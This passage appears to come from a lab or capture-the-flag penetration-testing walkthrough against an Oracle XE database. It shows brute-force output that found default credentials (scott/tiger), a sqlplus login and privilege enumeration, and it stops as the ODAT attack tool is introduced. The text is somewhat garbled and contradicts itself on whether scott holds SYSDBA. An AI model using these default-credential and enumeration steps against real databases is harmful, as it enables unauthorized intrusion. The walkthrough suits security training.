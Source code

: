 `[] Starting brute force on 10.10.10.82:1521...   [+] Found user/pass of: scott/tiger on 10.10.10.82 with sid XE   [] Auxiliary module execution completed`  
\`

Very good. We found a valid credential.  
Another way to detect valid credentials is to use a list of default credentials.  
Valid credentials mean we can connect to the XE instance and start querying the database for possible information. It turns out that scott also has the SYSBDA privilege . Think of it as something similar to sudo - it gives you extra flexibility and greater privileges in case you want to do any database alterations, user administration, the list goes on.

`Oracle Database Penetration Testing`  
Now that we have a valid SID and credentials, we can connect to the database for manual enumeration.

`   ╭─[/opt/oracle]─[root@Arthorias]─[0]─[4438]   ╰─[:)] # sqlplus scott/`[`tiger@10.10.10.82`](mailto:tiger@10.10.10.82)`:1521/XE`

`SQL*Plus: Release 12.1.0.2.0 Production on Tue Oct 3 12:56:27 2019`

`Copyright (c) 1982, 2014, Oracle. All rights reserved.`

`Connected to:   Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production`

`SQL> select * from v$version;`

## BANNER

`Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production   PL/SQL Release 11.2.0.2.0 - Production   CORE 11.2.0.2.0 Production   TNS for 64-bit Windows: Version 11.2.0.2.0 - Production   NLSRTL Version 11.2.0.2.0 - Production   `

`To start, we can check the privileges and roles of the users.`

`SQL> SELECT * FROM user_role_privs;`

\`  
USERNAME GRANTED\_ROLE ADM DEF OS\_

---

SCOTT CONNECT NO YES NO  
SCOTT

```plaintext
   RESOURCE               NO  YES NO
```

\`

As you can see, Scott is a low privileged user on the system. In order to gain access to the shell, we might need to escalate our privilege to DBA first and perform some known attacks on Oracle. To achieve this easily, we can use a tool called ODAT (Oracle Database Attack Tool) . It is an open source tool used to automate attacks on an Oracle database.

Before we can use ODAT, we need to install it in Kali first. You can refer to this installation guide to install it successfully.

## Usando ODAT - (Oracle Database Attack Tool)
